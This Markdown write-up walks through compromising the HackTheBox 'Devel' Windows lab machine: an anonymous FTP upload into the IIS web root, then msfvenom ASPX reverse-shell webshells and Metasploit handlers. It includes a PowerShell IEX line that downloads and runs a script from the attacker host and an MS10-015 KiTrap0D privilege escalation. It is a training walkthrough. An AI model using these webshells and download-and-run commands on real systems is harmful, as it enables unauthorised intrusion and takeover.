

## Reconnaissance

### nmap 

- Open Service 
	- Port 21: FTP service
	- Port 80: http (Microsoft IIS httpd 7.5)


### FTP 
- Using anonymous to login

![[machine/devel/IMG/1.png]]

- Check the content of FTP server by "ls"

![[machine/devel/IMG/2.png]]

- Create a text file with the content "This is a test file".
- Upload it to FTP.
![[machine/devel/IMG/3.png]]
### Web Service 
- View the test.txt on web site, It can show the content we just created.
- We confirm that the FTP directory is same as the web service.

![[machine/devel/IMG/4.png]]
- And according to nmap result, we also know the web service is running on Microsoft IIS.

## Exploit 
- So, I think we can generate the meterpreter webshell in ASPX format.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx > exploit.aspx
```

![[machine/devel/IMG/5.png]]

- Generate the powershell webshell in ASPX format
```
msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx > exploit4.aspx
```

![[machine/devel/IMG/6.png]]

- Upload webshell 

![[machine/devel/IMG/7.png]]

- Create a handler by metasploit
	1.  meterpreter shell
	```
	metasploit -q 
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST 10.10.17.145
	set LPORT 4444
	```

![[machine/devel/IMG/8.png]]

	2. powershell 

```
set payload windows/powershell_reverse_tcp
set LHOST 10.10.17.145
set LPORT 4444
```

![[machine/devel/IMG/9.png]]

- Execute the webshell and Check the handler
![[machine/devel/IMG/10.png]]
	meterpreter shell get response

![[machine/devel/IMG/11.png]]

	2. powershell get response 

![[machine/devel/IMG/12.png]]

- Get User Flag

## Post Exploitation 
- Check Systmeinfo

![[machine/devel/IMG/14.png]]

- Copy it to local file

![[machine/devel/IMG/15.png]]

- Using windows-exploit-suggester python to enumerate Local Privc possibilities
```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2023-05-21-mssb.xls --systeminfo devel.txt
```

![[machine/devel/IMG/16.png]]

![[machine/devel/IMG/17.png]]

- Using Sherlock to enumbertate Local Privc possibilities
- Upload shelock powershell file, with IEX download, the powershell will be executed.
	```
	IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/Sherlock.ps1')
	```

![[machine/devel/IMG/18.png]]
![[machine/devel/IMG/19.png]]
![[machine/devel/IMG/20.png]]

- With both of the results, I decide to tru MS10-015.
  ```
  searchsploit ms10-015
  ```

![[machine/devel/IMG/21.png]]

- ms10-015
	- Title: Microsoft Windows NT/2000/2003/2008/XP/Vista/7 - 'KiTrap0D' User Mode to Ring Escalation (MS10-015)
	- CVE-2010-0232
	- Microsoft Windows NT **GP** Trap Handler Allows Users to Switch Kernel Stack

![[machine/devel/IMG/22.png]]

### Privilege Escalation 
- According to some research, I found most of the exploit sample use metasploit to finish it.
	1. Background the current reverse shell

![[machine/devel/IMG/23.png]]

	2. Change the handler to ms10-015 exploit
	
```
search ms10-015
use exploit/windows/local/ms10_015_kitrap0d
```
![[machine/devel/IMG/27.png]]


	3.   Confirm sessions, and set related options
	```
	sessions 
	set session 7
	set LHOST 10.10.17.145
	set LPORT 4444
	```

![[machine/devel/IMG/24.png]]

- Check whoami 

![[machine/devel/IMG/25.png]]

- Get Root Flag


## Reference 

### Write up
- [(Video)(Writeup)ippsec - Devel](https://www.youtube.com/watch?v=2LNyAbroZUk)
- [(Video)Windows Privilege Escalation](https://www.youtube.com/watch?v=uTcrbNBcoxQ&t=4845s)
### ms10-015
- [(Exploit DB) ms10-015](https://www.exploit-db.com/exploits/11199)
- [CVE-2012-0232(ms10-015)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0232)
- [ms10-015_detail exploit_explain](https://vk9-sec.com/kitrap0d-windows-kernel-could-allow-elevation-of-privilege-ms10-015-cve-2010-0232/)
### Tools 
- [(GITHUB)windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [(GITHUB)windows powershell sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
### msfvenom
- [msfvenom & multi handler](https://ithelp.ithome.com.tw/articles/10278991)
- [msfvenom guideline](https://www.796t.com/article.php?id=162291)


###### tags: `HackTheBox`  `Windows` `FTP` `webshell` `msfvenom` `ms10-015` `Windows Privilege Escalation` 